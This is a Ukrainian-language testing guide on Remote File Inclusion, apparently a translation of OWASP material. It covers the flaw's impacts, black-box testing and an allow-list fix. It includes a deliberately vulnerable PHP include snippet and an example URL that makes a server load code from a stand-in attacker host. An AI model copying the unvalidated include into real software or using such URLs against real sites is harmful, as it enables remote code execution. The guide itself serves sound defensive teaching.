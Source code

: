 # Тестування віддаленого включення файлів

## Огляд

Уразливість File Inclusion дозволяє зловмиснику включити файл, зазвичай використовуючи механізми «динамічного включення файлу», реалізовані в цільовій програмі. Уразливість виникає через використання введених користувачем даних без належної перевірки.

Це може призвести до чогось схожого на виведення вмісту файлу, але залежно від серйозності це також може призвести до:

     Виконання коду на веб-сервері
     Виконання коду на стороні клієнта, наприклад JavaScript, що може призвести до інших атак, наприклад міжсайтового сценарію (XSS)
     Відмова в обслуговуванні (DoS)
     Розкриття конфіденційної інформації

Віддалене включення файлів (також відоме як RFI) — це процес включення віддалених файлів за допомогою використання вразливих процедур включення, реалізованих у програмі. Ця вразливість виникає, наприклад, коли сторінка отримує як вхідні дані шлях до файлу, який потрібно включити, і цей вхідний сигнал не очищається належним чином, що дозволяє ввести зовнішню URL-адресу. Хоча більшість прикладів вказують на вразливі сценарії PHP, ми повинні мати на увазі, що це також поширене в інших технологіях, таких як JSP, ASP та інші.

## Як тестувати

Оскільки RFI виникає, коли шляхи, передані операторам «include», не очищаються належним чином, у підході тестування чорної скриньки ми повинні шукати сценарії, які приймають імена файлів як параметри. Розглянемо наступний приклад PHP:

***$incfile = $_REQUEST["файл"];
include($incfile.".php");***

У цьому прикладі шлях витягується із HTTP-запиту, і перевірка вхідних даних не виконується (наприклад, шляхом перевірки вхідних даних за списком дозволених), тому цей фрагмент коду стає вразливим до такого типу атаки. Розглянемо таку URL-адресу:

**http://vulnerable_host/vuln_page.php?file=http://attacker_site/malicous_page**

У цьому випадку віддалений файл буде включено, і будь-який код, який міститься в ньому, буде запущено сервером.

## Рішення

Найефективнішим рішенням для усунення вразливості включення файлів є уникнення передачі даних, наданих користувачем, будь-якій файловій системі/фреймворку API. Якщо це неможливо, програма може підтримувати дозволений список файлів, які можуть бути включені сторінкою, а потім використовувати ідентифікатор (наприклад, номер індексу) для доступу до вибраного файлу. Будь-який запит, що містить недійсний ідентифікатор, має бути відхилений, таким чином зловмисники не мають можливості маніпулювати шляхом атаки.
